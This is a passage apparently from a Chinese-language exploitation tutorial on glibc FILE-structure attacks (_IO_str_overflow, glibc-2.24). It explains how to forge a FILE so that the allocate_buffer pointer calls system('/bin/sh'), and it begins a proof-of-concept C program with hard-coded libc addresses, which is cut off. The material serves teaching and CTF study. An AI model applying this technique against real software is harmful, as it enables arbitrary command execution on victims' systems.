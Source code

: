 ```cpp
	    {
	      memcpy (new_buf, old_buf, old_blen);
	      (*((_IO_strfile *) fp)->_s._free_buffer) (old_buf);
	      /* Make sure _IO_setb won't try to delete _IO_buf_base. */
	      fp->_IO_buf_base = NULL;
	    }
	  memset (new_buf + old_blen, '\0', new_size - old_blen);

	  _IO_setb (fp, new_buf, new_buf + new_size, 1);
	  fp->_IO_read_base = new_buf + (fp->_IO_read_base - old_buf);
	  fp->_IO_read_ptr = new_buf + (fp->_IO_read_ptr - old_buf);
	  fp->_IO_read_end = new_buf + (fp->_IO_read_end - old_buf);
	  fp->_IO_write_ptr = new_buf + (fp->_IO_write_ptr - old_buf);

	  fp->_IO_write_base = new_buf;
	  fp->_IO_write_end = fp->_IO_buf_end;
	}
    }

  if (!flush_only)
    *fp->_IO_write_ptr++ = (unsigned char) c;
  if (fp->_IO_write_ptr > fp->_IO_read_end)
    fp->_IO_read_end = fp->_IO_write_ptr;
  return c;
}
```

其中通过以下几个条件来绕过：

1. `fp->_flags & _IO_NO_WRITES` 为假；
   - 构造 `_flags = 0`；
2. `fp->_IO_write_ptr - fp->_IO_write_base >= _IO_blen (fp) + flush_only` 为真（`#define _IO_blen(fp) ((fp)->_IO_buf_end - (fp)->_IO_buf_base)`）；
   - 构造 `_IO_write_base = 0`、`_IO_write_ptr = 0x7fffffffffffffff` 以及 `_IO_buf_end = (bin_sh_in_libc_addr - 100) / 2`（`&"/bin/sh"` 需要是一个偶数）；
3. `fp->_flags & _IO_USER_BUF` 为假；
4. `2 * _IO_blen (fp) + 100` 不能为负数，且指向 `"/bin/sh"` 字符串对应的地址；
5. `*((_IO_strfile *) fp)->_s._allocate_buffer`（`fp + 0xe0`）指向 system 地址。

即最后执行下面这句语句：

```cpp
	  new_buf
	    = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
```

测试代码如下（环境为 glibc-2.24）：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#define libc_base 0x7ffff7a4e000
#define _IO_2_1_stdin_addr libc_base+0x3878c0
#define _IO_str_jumps_addr libc_base+0x384500
#define bin_sh_in_libc_addr libc_base+0x14fc3d
#define system_addr libc_base+0x3c971

int main() {
    FILE *fp;
    char *bin_sh_on_stack_addr = "/bin/sh";
    fp = _IO_2_1_stdin_addr;//fopen("1.txt", "rw");
    if (!fp) {
        printf("file not existed.\n");
        exit(-1);
```
